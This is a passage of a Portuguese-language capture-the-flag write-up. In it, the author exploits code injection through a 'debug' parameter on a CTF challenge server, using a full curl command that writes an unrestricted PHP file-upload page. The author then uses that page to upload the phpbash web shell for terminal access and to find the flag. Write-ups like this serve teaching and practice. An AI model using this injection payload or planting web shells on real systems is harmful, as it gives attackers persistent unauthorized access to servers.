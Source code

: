 Após alguns testes sem sucesso de ler a flag diretamente através dessa página, resolvo fazer upload de arquivo php para o servidor, pois apesar de vulnerável a UX do invasor não estava das mais agradáveis xD injetando código através do parâmetro debug. Para fazer o upload de um código php faço o request abaixo 

```shell
curl -L -X POST 'http://challenges.ctfd.io:30119/?page=service' -H 'Referer: http://18.231.79.49/login' -H 'Cookie: password=f2464cff8995243e54b0c7e37c02f878' -F 'debug="<!DOCTYPE html><html><head>  <title>File Upload</title></head><body>  <form enctype=\"multipart/form-data\" action=\"\" method=\"POST\">    <p>Upload your file</p>    <input type=\"file\" name=\"uploaded_file\"></input><br />    <input type=\"submit\" value=\"Upload\"></input>  </form></body></html><?PHP if(!empty($_FILES[\"uploaded_file\"])) { $path = \"\"; $path = $path . basename( $_FILES[\"uploaded_file\"][\"name\"]); if(move_uploaded_file($_FILES[\"uploaded_file\"][\"tmp_name\"], $path)) { echo \"The file \". basename( $_FILES[\"uploaded_file\"][\"name\"]). \" has been uploaded\"; } else{ echo \"There was an error uploading the file, please try again!\"; } } ?>'\'' >> zlanafazuploadporaqui.php #"'
```

E agora temos um formulário de upload sem nenhuma restrição no servidor, e pronto para nosso uso!
Acesso a minha página http://challenges.ctfd.io:30119/zlanafazuploadporaqui.php e faço upload de um projeto open source (de um arquivo) muito massa chamado phpbash. Nada mais faz do que nos fornecer um terminal com uma UX bem melhor! 

Acesso então o meu terminal pessoal

![The fucking final countdown](/web/the-final-countdown/001.png)

Após algumas explorações, descubro a localidade da flag

![The fucking final countdown](/web/the-final-countdown/002.png)

